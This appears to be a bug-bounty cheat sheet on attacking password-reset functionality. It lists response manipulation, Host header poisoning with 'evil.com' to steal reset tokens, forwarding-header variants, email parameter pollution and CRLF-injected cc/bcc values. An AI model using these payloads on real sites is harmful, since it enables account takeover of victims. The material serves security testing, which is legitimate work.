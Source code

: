 ### Forget Password Functionality
```
- Register an account as an attacker
- Change password and intercept success response of password change
- Register an account as a victim
- Try to change password and intercept the response
- Paste the attacker success response
```
```
- Click forgot password and put your email
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```

### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```

Other Headers
```
X-Forwarded-For
X-Forwarded-Host
Referer
Origin
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=attacker@email&email=victim@email
- If response success then see which account password has been changed
```

```
- Click Forgot Password
- Enter victim@mail.com%0d%0accattacker@mail.com Or victim@mail.com%0d%0abccattacker@mail.com
```
